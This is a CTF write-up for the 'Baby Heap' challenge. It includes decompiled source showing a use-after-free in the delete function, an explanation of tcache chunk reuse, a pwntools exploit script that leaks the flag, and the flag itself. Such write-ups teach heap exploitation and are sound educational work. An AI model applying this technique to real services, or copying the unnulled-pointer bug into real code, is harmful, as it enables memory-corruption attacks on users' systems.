





## Baby Heap

```
Author: HyggeHalcyon

let's see how well you understand the heap

nc ctf.tcp1p.com 4267
```
**Attachment**: [dist.zip](release/dist.zip)

We were given a zip file that contain an ELF binary. Here's some information about the binary.

  


<details close><summary>Decompiled Binary</summary>
    
```c
int setup()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

unsigned __int64 create()
{
  int v1; // [rsp+8h] [rbp-48h]
  int n; // [rsp+Ch] [rbp-44h]
  char s[40]; // [rsp+10h] [rbp-40h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  printf("Index: ");
  fgets(s, 32, stdin);
  v1 = atoi(s);
  if ( v1 > 0 && v1 <= 10 )
  {
    if ( *((_QWORD *)&user_chunk + v1 - 1) )
    {
      puts("[!] oops, chunk already occupied");
      return v4 - __readfsqword(0x28u);
    }
    printf("Size: ");
    fgets(s, 32, stdin);
    n = atoi(s);
    if ( n > 0xF && n <= 256 )
    {
      *((_QWORD *)&user_chunk + v1 - 1) = malloc(n);
      printf("Content: ");
      fgets(*((char **)&user_chunk + v1 - 1), n, stdin);
      puts("[*] creation success");
      return v4 - __readfsqword(0x28u);
    }
  }
  puts("[!] sorry can't do that");
  return v4 - __readfsqword(0x28u);
}

unsigned __int64 delete()
{
  int v1; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  fgets(s, 32, stdin);
  v1 = atoi(s);
  if ( v1 > 0 && v1 <= 10 )
  {
    free(*((void **)&user_chunk + v1 - 1));
    puts("[*] deletion success");
  }
  else
  {
    puts("[!] sorry can't do that");
  }
  return v3 - __readfsqword(0x28u);
}

unsigned __int64 view()
{
  int v1; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  fgets(s, 32, stdin);
  v1 = atoi(s);
  if ( v1 > 0 && v1 <= 10 )
  {
    if ( *((_QWORD *)&user_chunk + v1 - 1) )
      printf("[*] Data: %s\n", *((const char **)&user_chunk + v1 - 1));
    else
      puts("[!] chunk is empty");
  }
  else
  {
    puts("[!] sorry can't do that");
  }
  return v3 - __readfsqword(0x28u);
}

int read_flag()
{
  int i; // [rsp+4h] [rbp-Ch]
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    for ( i = 0; i <= 3; ++i )
      flag_chunk = (char *)malloc(0x70uLL);
    flag_chunk = (char *)malloc(0x70uLL);
    fgets(flag_chunk, 112, stream);
    fclose(stream);
    return puts("[*] flag loaded into memory");
  }
  else
  {
    puts("[!] flag.txt not found");
    return puts("[!] if this happened on the remote server, please contact admin.");
  }
}

__int64 menu()
{
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Menu:");
  puts("(1) create [1-10]");
  puts("(2) delete [1-10]");
  puts("(3) view   [1-10]");
  puts("(4) flag");
  puts("(5) exit");
  printf("> ");
  fgets(s, 32, stdin);
  return (unsigned int)atoi(s);
}

// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup();
  while ( 1 )
  {
    switch ( (unsigned int)menu() )
    {
      case 1u:
        create();
        break;
      case 2u:
        delete(*(_QWORD *)&argc, argv);
        break;
      case 3u:
        view(*(_QWORD *)&argc, argv);
        break;
      case 4u:
        read_flag();
        break;
      case 5u:
        puts("[*] exiting...");
        exit(0);
      default:
        *(_QWORD *)&argc = "[!] unknown choice";
        puts("[!] unknown choice");
        break;
    }
  }
}
```
    
</details>

The provided binary is menu-based and has four main menus:

- Menu 1 - Create: The program prompts the user to enter an index to store data, the data's size, and the data to be stored. The program then calls malloc() with the user's data size as its argument. The heap chunk pointer will be stored inside the `user_chunk` global variable. Then the user's input is stored inside the heap chunk.

- Menu 2 - Delete: The program asks the user to input the index at which data is stored in the user_chunk variable that they want to delete. The program deletes the data using the `free()` function. However, because the program doesn't nullify the data pointer after calling `free()`, it creates a Use After Free (UAF) vulnerability. This means that the program can continue to reference and potentially modify memory that has been deallocated, leading to unintended behavior or security issues.

```c
int delete(){
... SNIPPED ...
    free(*((void **)&user_chunk + v1 - 1));
    puts("[*] deletion success");
... SNIPPED ...
}
```

- Menu 3 - View: The program prompts the user to input the index at which data is stored in the user_chunk variable that they want to view.

- Menu 4 - Read Flag: In this menu, the program calls `malloc(0x70)` five times in total (The last `malloc()` is used to allocate memory for storing the flag string).

Here, I allocated heap chunks memory five times using menu 1, with a size of 0x70 bytes (the same size as the malloc in the `read_flag()` function). 

  


Then, I deleted the five heap chunks from earlier. 
  


After that, I called the flag menu to store the flag in one of the previously allocated and deleted heap chunks. Due to the Use After Free vulnerability, we can exploit it to read the flag at one of the indices using menu 3 - view.

  


<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 4267
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit
def add(idx, sz, data):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", str(idx).encode())
    io.sendlineafter(b": ", str(sz).encode())
    io.sendlineafter(b": ", data)
    print("CREATED")

def delete(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b": ", str(idx).encode())
    print("DELETED")

def view(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b": ", str(idx).encode())
    io.recvuntil(b": ")
    resp = io.recvuntil(b"\nMenu", drop=True)
    return resp

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *read_flag+0x94
            b *read_flag+0x5a
            """
            gdb.attach(io, gdbscript=cmd)

    for i in range(5):
        add(1+i, 0x70, b"DUMMY")

    # Heap Memory Overview after 5 malloc:
    # ... 
    # Other Chunk 
    # ...
    # CHUNK_1
    # CHUNK_2
    # CHUNK_3
    # CHUNK_4
    # CHUNK_5
    # TOP CHUNK

    for i in range(5):
        delete(1+i) 
    # Tcachebins after 5 free:
    # Tcachebins [0x80]: CHUNK_5 -> CHUNK_4 -> CHUNK_3 -> CHUNK_2 -> CHUNK_1

    # Call malloc 4th times (looping: for(int i=0; i<=3; i++))
    # Tcachebins [0x80]: CHUNK_1
    # Call malloc 1 more times (to store the flag)
    # Tcachebins [0x80]: -
    # Flag has the same address as CHUNK_1
    io.sendlineafter(b"> ", b"4")


    # Leak the flag by view the content of CHUNK_1 (idx: 1)
    print(view(1).decode())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

  

    
**Flag:** TCP1P{k4mu_m4kan_ap4_1ni_k0q_un1qu3_s3k4li_yh_k4kung_chef_0ma1good_r3cyle???}